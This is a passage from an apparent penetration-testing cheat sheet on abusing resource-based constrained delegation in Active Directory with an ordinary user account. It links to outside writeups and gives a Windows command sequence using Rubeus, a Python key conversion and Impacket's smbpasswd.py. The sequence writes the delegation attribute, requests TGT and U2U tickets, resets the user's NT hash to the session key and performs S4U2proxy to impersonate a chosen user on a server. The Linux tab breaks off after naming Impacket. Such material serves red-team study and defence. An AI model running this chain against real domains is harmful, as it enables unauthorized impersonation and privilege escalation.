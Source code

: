 

### Metasploit

- [https://www.n00py.io/2023/01/exploiting-resource-based-constrained-delegation-rbcd-with-pure-metasploit/](https://www.n00py.io/2023/01/exploiting-resource-based-constrained-delegation-rbcd-with-pure-metasploit/)




## RBCD with UPNs

- [https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)

{% tabs %}
{% tab title="Windows" %}
User **j.doe** is populated within the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the **SRV01** machine:

```
PS > Set-ADComputer SRV01 -PrincipalsAllowedToDelegateToAccount j.doe
```

Request a regular TGT for **j.doe**:

```
PS > .\Rubeus.exe asktgt /user:j.doe /rc4:fc525c9683e8fe067095ba2ddc971889 /nowrap
```

Request a U2U ticket providing TGT within the `/ticket` **and** `/tgs` options and specifying the user to impersonate within the `/targetuser` option (this is an S4U2self request):

```
PS > .\Rubeus.exe asktgs /u2u /targetuser:<USER_TO_IMPERSONATE> /nowrap /ticket:<TGT> /tgs:<TGT>
```

Obtain a hex view of the current TGT session key (RC4 HMAC):

```
$ python3 -c 'import binascii,base64;print(binascii.hexlify(base64.b64decode("<TGT_SESSION_KEY_B64>")).decode())'
```

Set **j.doe**'s NT hash to the hexlified TGT session key:

```
$ smbpasswd.py megacorp.local/j.doe:'Passw0rd!'@DC01.megacorp.local -newhashes :<TGT_SESSION_KEY_HEX> -altuser MEGACORP/snovvcrash -altpass 'Passw0rd123!'
```

Go for the S4U attack providing the initial TGT within the `/ticket` option and the forwardable TGS (got from the U2U request) within the `/tgs` option (only the S4U2proxy part is performed):

```
PS > .\Rubeus.exe s4u /msdsspn:host/SRV01.megacorp.local /altservice:http /ticket:<TGT> /tgs:<TGS> /createnetonly:C:\Windows\System32\cmd.exe /show
```
{% endtab %}
{% tab title="Linux" %}
From Linux systems [Impacket](https://github.com/fortra/impacket/pull/1202#issuecomment-1257289045) can be used to operate the technique.
